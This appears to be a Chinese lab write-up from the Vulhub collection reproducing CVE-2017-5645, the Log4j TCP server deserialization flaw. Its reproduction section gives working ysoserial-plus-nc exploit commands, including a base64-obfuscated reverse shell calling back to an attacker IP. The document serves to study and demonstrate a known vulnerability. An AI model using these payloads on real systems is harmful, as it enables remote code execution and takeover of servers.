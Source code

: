 # Apache Log4j Server 反序列化命令执行漏洞 CVE-2017-5645

## 漏洞描述

Apache Log4j是一个用于Java的日志记录库，其支持启动远程日志服务器。Apache Log4j 2.8.2之前的2.x版本中存在安全漏洞。攻击者可利用该漏洞执行任意代码。

## 环境搭建

Vulhub执行如下命令启动漏洞环境

```
docker-compose up -d
```

环境启动后，将在4712端口开启一个TCPServer。

说一下，除了使用vulhub的docker镜像搭建环境外，我们下载了log4j的jar文件后可以直接在命令行启动这个TCPServer：`java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`，无需使用vulhub和编写代码。

## 漏洞复现

我们使用ysoserial生成payload，然后直接发送给`your-ip:4712`端口即可。

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

然后执行`docker-compose exec log4j bash`进入容器，可见 /tmp/success 已成功创建：

![image-20220226211513715](images/202202262115772.png)

执行[反弹shell的命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功弹回shell：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc0LjEyOC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}" | nc your-ip 4712
```

![image-20220226211802491](images/202202262118589.png)

